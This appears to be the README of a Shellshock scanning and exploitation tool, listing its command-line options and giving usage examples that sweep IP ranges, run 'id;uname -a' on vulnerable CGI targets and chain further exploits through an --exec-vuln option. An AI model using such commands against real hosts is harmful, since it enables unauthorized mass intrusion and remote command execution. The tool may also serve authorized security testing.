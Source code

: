 ```
  --cmd-cgi <command shell>    Define shell command that will be executed in the payload
  --exec-vuln <command shell>  Executing commands on vulnerable targets
  --thread <20>, -t <20>       Eg. 20
  --check                      Check for shellshock vulnerability
  --ssl                        Enable request with SSL
  --cgi-file <cgi.txt>         Defines a CGI file to be used
  --timeout <5>                Set connection timeout
  --all                        Teste all payloads
  --debug, -d                  Enable debug mode

```

### Command e.g:
```
python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 40 --ssl

python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 10 --ssl --cgi-file 'wordlist/cgi.txt'

python main.py --range '194.206.187.X,194.206.187.XXX' --cmd 'id;uname -a' --thread 10 --ssl --cgi-file 'wordlist/cgi.txt'

python main.py --file targets.txt --cmd 'id;uname -a' --thread 10 --ssl --cgi-file 'wordlist/cgi.txt'

python main.py --file targets.txt --cmd 'id;uname -a' --thread 10 --ssl --cgi-file 'wordlist/cgi.txt' --all

python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 40 --ssl --cgi-file 'wordlist/cgi2.txt' --exec-vuln 'curl -v -k -i "_TARGET_"'

python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 40 --ssl --cgi-file 'wordlist/cgi2.txt' --exec-vuln './exploit -t "_TARGET_"'

python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 40 --ssl --cgi-file 'wordlist/cgi2.txt' --exec-vuln './exploit -t "_TARGET_"' --debug
```
### Prints:
#### START
![Logo](assets/prints/print01.png)
#### PROCESS
![Logo](assets/prints/print02.png)
#### SPECIAL COMMAND ( --exec-vuln 'echo ```"_TARGET_"```' )
![Logo](assets/prints/print03.png)
#### COMMAND ( --debug )